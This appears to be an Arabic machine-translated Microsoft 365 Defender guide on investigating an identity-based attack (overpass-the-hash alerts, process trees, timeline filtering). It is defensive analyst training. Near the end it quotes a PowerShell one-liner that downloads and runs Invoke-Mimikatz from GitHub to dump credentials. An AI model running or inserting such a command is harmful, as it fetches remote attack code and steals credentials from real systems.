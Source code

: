 ```yaml
---
title: مثال عن هجوم مستند إلى الهوية
description: خطوة عبر مثال لتحليل هجوم مستند إلى الهوية.
keywords: الأحداث، التنبيهات، التحقق، الارتباط، الهجوم، الأجهزة، الأجهزة، المستخدمون، الهويات، الهوية، علبة البريد، البريد الإلكتروني، 365، microsoft، m365، الاستجابة للحوادث، هجوم عبر الإنترنت
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 20b9fca87e003c0c776c9f614afaa1b6054c24a5
ms.sourcegitcommit: 3b8e009ea1ce928505b8fc3b8926021fb91155f3
ms.translationtype: MT
ms.contentlocale: ar-SA
ms.lasthandoff: 03/28/2022
ms.locfileid: "64500266"
---
```

# <a name="example-of-an-identity-based-attack"></a>مثال عن هجوم مستند إلى الهوية

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**ينطبق على:**
- Microsoft 365 Defender

Microsoft Defender for Identity المساعدة في الكشف عن المحاولات الضارة التي تؤذي الهويات في مؤسستك. نظرا لأن Defender for Identity يتكامل مع Microsoft 365 Defender، يمكن لمحللين الأمان رؤية التهديدات القادمة من Defender for Identity، مثل محاولات رفع امتياز Netlogon المشتبه بها.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>تحليل الهجوم في Microsoft Defender for Identity

Microsoft 365 Defender للمحللين بتصفية التنبيهات حسب مصدر الكشف على علامة **التبويب** تنبيهات في صفحة الأحداث. في المثال التالي، تمت تصفية مصدر الكشف إلى **Defender for Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="تصفية مصدر الكشف في Microsoft Defender for Identity" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

عند **تحديد تنبيه هجوم** تجاوز الهاشش المشتبه به، يتم إرساله إلى صفحة في Microsoft Defender for Cloud Apps تعرض معلومات أكثر تفصيلا. يمكنك دائما معرفة المزيد حول تنبيه أو هجوم عن طريق تحديد معرفة المزيد حول  نوع التنبيه هذا لقراءة وصف لاقتراحات [](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) الهجوم والتعليل.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="تنبيه هجوم تجاوز الهاشش المشتبه به" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>التحقق من الهجوم نفسه في Microsoft Defender لنقطة النهاية

بدلا من ذلك، يمكن للمحلل استخدام Defender for Endpoint لمعرفة المزيد حول النشاط على نقطة نهاية. حدد الحادث من قائمة انتظار الحادث، ثم حدد **علامة التبويب** تنبيهات. ومن هنا، يمكنهم تحديد مصدر الكشف أيضا. إن مصدر الكشف المسمى الكشف التلقائي والاستجابة على النقط النهائية هو "كشف نقطة النهاية والاستجابة لها"، وهو Defender لنقطة النهاية. من هنا، يختار المحلل تنبيها تم اكتشافه بواسطة الكشف التلقائي والاستجابة على النقط النهائية.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="الكشف عن نقطة النهاية والاستجابة لها في مدخل Microsoft Defender لنقطة النهاية" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png"::: 

تعرض صفحة التنبيه معلومات مختلفة ذات صلة مثل اسم الجهاز الذي تم التأثير عليه واسم المستخدم حالة التحقيق التلقائي وتفاصيل التنبيه. تصف قصة التنبيه تمثيلا مرئيا شجرة العملية. إن شجرة العمليات هي تمثيل هيكلي للعمليات الأصل والطفل المرتبطة بالتنبيه.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="شجرة معالجة تنبيه في Microsoft Defender لنقطة النهاية" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

يمكن توسيع كل عملية لعرض المزيد من التفاصيل. التفاصيل التي يمكن للمحلل رؤياها هي الأوامر الفعلية التي تم إدخالها كجزء من برنامج نصي ضار وعناوين IP للاتصال الصادر ومعلومات مفيدة أخرى.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="تفاصيل العملية في مدخل Microsoft Defender لنقطة النهاية" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
من خلال تحديد **رؤية في المخطط الزمني**، يمكن للمحلل التنقل لأسفل لتحديد الوقت المحدد للخطر. 

Microsoft Defender لنقطة النهاية الكشف عن العديد من الملفات والبرامج النصية الضارة. ومع ذلك، نظرا للعديد من الاستخدامات المشروعة للاتصالات الصادرة و PowerShell ونشاط سطر الأوامر، قد يعتبر بعض النشاط نشاطا غير جيد حتى ينشئ ملفا أو نشاطا ضارا. وبالتالي، فإن استخدام المخطط الزمني يساعد المحللين على وضع التنبيه في سياق مع النشاط المحيط لتحديد المصدر الأصلي للهجوم أو وقته الذي يحجبه نظام الملفات المشترك ونشاط المستخدم. 

لاستخدام المخطط الزمني، سيبدأ المحلل في وقت الكشف عن التنبيهات (باللون الأحمر) ويمرر للأسفل إلى الخلف في الوقت المناسب لتحديد وقت بدء النشاط الأصلي الذي أدى إلى النشاط الضار فعليا. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="وقت بدء المحلل للكشف عن التنبيهات" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

من المهم فهم النشاط الشائع وتمييزه مثل اتصالات Windows Update، واتصالات Windows حركة تنشيط البرامج الموثوق بها، والاتصالات الشائعة الأخرى بمواقع Microsoft، ونشاط الإنترنت من جهة خارجية، ونشاط Microsoft Endpoint Configuration Manager، والنشاط غير ذلك من الأنشطة غير المشبوهة النشاط. إحدى الطرق للتمييز هي استخدام عوامل تصفية المخطط الزمني. هناك العديد من عوامل التصفية التي يمكنها تمييز نشاط معين أثناء تصفية أي شيء لا يريد المحلل عرضه. 

في الصورة أدناه، تمت تصفية المحلل لعرض أحداث الشبكة وا العملية فقط. تسمح معايير التصفية هذه للمحلل برؤية اتصالات الشبكة والعمليات المحيطة بالحدث حيث المفكرة اتصالا باستخدام عنوان IP، وقد رأيناه أيضا في شجرة العمليات. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="كيفية المفكرة المستخدمين في إجراء اتصال ضار من الخارج" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

في هذا الحدث تحديدا، المفكرة المستخدمين في إجراء اتصال ضار بالداخل. ومع ذلك، غالبا ما يستخدم iexplorer.exe لإنشاء اتصالات لتنزيل تحميل ضار لأن عمليات iexplorer.exe تعتبر عادة نشاط مستعرض ويب عاديا.

هناك عنصر آخر يجب البحث عنه في المخطط الزمني وهو استخدام PowerShell للاتصالات الصادرة. سيبحث المحلل عن اتصالات PowerShell `IEX (New-Object Net.Webclient)` ناجحة بأوامر مثل متبوع باتصال وارد لموقع ويب يستضيف ملفا ضارا. 

في المثال التالي، تم استخدام PowerShell لتنزيل Mimikatz وتنفيذه من موقع ويب:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
يمكن للمحلل البحث بسرعة عن الكلمات الأساسية عن طريق كتابة الكلمة الأساسية في شريط البحث لعرض الأحداث التي تم إنشاؤها باستخدام PowerShell فقط. 

## <a name="next-step"></a>الخطوة التالية

راجع [مسار التحقيق في التصيد](first-incident-path-phishing.md) الاحتيالي.

## <a name="see-also"></a>راجع أيضًا

- [نظرة عامة حول الأحداث](incidents-overview.md)
- [إدارة الأحداث](manage-incidents.md)
- [التحقيق في الأحداث](investigate-incidents.md)
